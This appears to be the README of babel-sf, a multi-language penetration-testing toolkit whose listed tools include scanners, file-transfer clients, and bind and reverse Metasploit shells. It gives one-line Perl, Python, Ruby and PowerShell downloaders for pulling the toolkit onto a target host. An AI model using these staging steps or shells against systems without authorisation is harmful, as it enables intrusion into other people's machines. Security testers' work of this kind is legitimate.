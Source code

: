 # Babel-sf

The Babel Scripting Framework (babel-sf) is a collection of tools to faciliitate useful pentest related tasks, replicated in a number of different scripting languages.

## Bable-sf Tools:
```bash
    Port Scanner
    ARP Scanner
    FTP Client
    WGET Client
    Bind Metasploit Payload
    Reverse Metasploit Payload
````

### The Tools are Replicated in the Following Languages:
```bash
    Perl
    Python 2.x
    Python 3.x
    Ruby
    PowerShell
```

### Why a custom scripting framework?

babel-sf has been created for testing minimal installations, locked down and/or hardened environments e.g.

* When the target Operating System has a minimal installation
* When the Operating System’s native tools have been removed
* When the Operating System’s native tools have been locked down via ACLs, Group Policy or AppLocker

But crucially, you still have access to one or more scripting languages e.g. Python or PowerShell

Its development was also partially driven by my own needs:

* Proof of Concept i.e. to demonstrate why access to scripting languages can be bad!
* System Administrator “Yeah, users have access to [ruby/perl/python/PowerShell], so what?”

### But really Why?

To solve reoccurring problems encountered during my testing:

* Having to write your own code to perform a required task (takes time!)
* Having to Google for code to (re)use, tweak and/or just to get working (takes time!)

I expect babel-sf to be used when you don’t have any tools or Operating System utilities available e.g.

1. No telnet
2. No FTP
3. No wget
4. No SSH
5. No netcat, nmap etc. etc.

In this scenario you simply download babel-sf onto the target box via a short one liner (in whichever scripting language is available to you).

### Aims?

babel-sf “aspires” to be identical in each scripting language:

* Identical Usage (switches etc.)
* Identical Output
* Offer an identical ‘Look and Feel’

### Functionality?

As it stands, babel-sf provides scripts for the following functions:

1. Port Scanner 
2. Arp Scanner 
3. FTP client (crude)
4. WGET client
5. HTTP Server
6. Bind Metasploit Payload
7. Reverse Metasploit Payload

### Initial Download?

Assuming that at least one scripting language is supported on the target system, an initial single line script (which provides wget type functionality) will be run to download babel-sf to the target host.

In practice to download babel-sf to our target system we run the relevant script, for our available programming language.  This will have to be typed in manually (but thankfully these scripts short and succinct).

### Perl:

Create ‘download.pl’ containing the following code and execute via: ‘perl download.pl’

```bash
use LWP::Simple; mirror('https://github.com/attackdebris/babel-sf/archive/master.zip', 'babel-sf.zip');
```

### Python:

Create ‘download.py’ containing the following code and execute via: ‘python download.py’

```bash
import urllib; urllib.urlretrieve('https://github.com/attackdebris/babel-sf/archive/master.zip', 'babel-sf.zip')
```

### Ruby:

Create ‘download.rb’ containing the following code and execute via: ‘ruby download.rb’

```bash
require 'open-uri'; File.open("babel-sf.zip", "wb").write(open("https://github.com/attackdebris/babel-sf/archive/master.zip", "rb").read)
```

### PowerShell:

Create ‘download.ps1' containing the following code and execute via: ‘powershell .\download.ps1'

```bash
(new-object System.Net.WebClient).Downloadfile("https://github.com/attackdebris/babel-sf/archive/master.zip","babel-sf.zip")
```

Obviously, if you were located on a closed network you would download from your own host, rather than from github.

### Script Uniformity?

The scripts offer uniform functionality to a point, some exceptions are:

1. Ruby has a socket limit (approx 1024):  This limits the maximum number of ports that can be scanned at once

2. I had to be flexible with the type of metasploit shells included:  Whilst, bind and reverse shells are included for each scripting language, one language may provide tcp_shells whlilst another may provide meterpreter shells

3. Whilst the underlying functionality is similar for all of the different HTTP servers: It proved tricky getting HTTP servers to provide a uniform look/feel:

4. Arpscanner usage varies a little between languages: The interface switch (e.g. eth0) is not currently supported in all languages

### Confessions!

* I’m not a coder (if you are a coder, look away now!)
* Coding in 4 different languages at the same time is foolhardy!
* Bugs / Errors abound
* If you don’t like certain aspects, contribute! Make them better!

### Testing!

* Only limited testing has been conducted
* Further testing, testing, testing is required e.g. What versions of Perl, Python, Ruby and PowerShell do the scripts run on?

### Supported Operating Systems

babel-sf has been tested on the following target Operating Systems (but it should work on many, many more):

* Perl, Python and Ruby (Currently only targeting Nix systems)

```bash
Ubuntu 12.04
Debian “wheezy”
```

* PowerShell (Windows)

Created on and tested in `PowerShell version 2.0 (Windows 7)`

### Future Additions?

Addition of further scripting languages:

```bash
    PHP
    VBScript
    Java
    More?
```
